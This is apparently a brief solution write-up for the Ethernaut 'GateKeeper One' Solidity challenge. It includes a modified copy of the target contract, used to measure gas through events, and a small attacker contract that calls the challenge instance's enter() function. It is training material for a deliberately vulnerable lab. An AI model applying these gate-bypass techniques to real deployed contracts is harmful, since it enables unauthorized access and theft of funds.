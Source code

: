 [13 - GateKeeper One](https://ethernaut.openzeppelin.com/level/0x2a2497aE349bCA901Fea458370Bd7dDa594D1D69)

Solution: 
FirstGate: 
* have another contract call enter 

SecondGate:
* copy the GateKeeper One contract and figure out how much gas we should send, by emmiting events
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  event eventA(uint256 gasLeft);

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    emit eventA(gasleft());
    require(gasleft() % 1 == 0);
    emit eventA(gasleft());
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      // require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      // require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      // require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract GatekeeperOneSolution {
  GatekeeperOne private constant gatekeeperOneContract = GatekeeperOne(0xFDE4A1cFE13E4a69c455784ADe5aFAB0cfAcCEEC);

  function solve(bytes8 _gateKey) external {
    gatekeeperOneContract.enter(_gateKey);
  }
}
```